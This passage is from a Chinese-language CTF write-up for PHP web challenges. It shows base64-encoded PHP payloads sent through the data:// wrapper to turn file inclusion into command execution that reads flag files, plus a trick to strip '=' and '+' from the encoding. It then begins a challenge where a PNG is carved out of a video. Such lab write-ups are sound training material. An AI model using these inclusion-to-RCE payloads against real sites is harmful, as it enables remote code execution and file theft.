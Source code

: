  成功执行

![image-20250309145615049](assets/image-20250309145615049.png)

后面正常rce即可，注意要将编码的等号去掉，payload：

```
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAnKTs/Pg
```

另外也可以在rce语句中加点东西让base64编码出来的东西没有等于号和加号：

```
<?php system('tac *.php');echo 'abdc';?>aa
编码结果：
PD9waHAgc3lzdGVtKCd0YWMgKi5waHAnKTtlY2hvICdhYmRjJzs/PmFh
```

也是可以正常执行的



#### web116

打开是一个视频，源码也看不了，提示：misc+lfi

下载视频，使用 **010editor**打开，发现存在 png 图片的数据

![image-20250309154552610](assets/image-20250309154552610.png)

提取并另存为png文件，打开发现是一段代码

![image-20250309154743897](assets/image-20250309154743897.png)
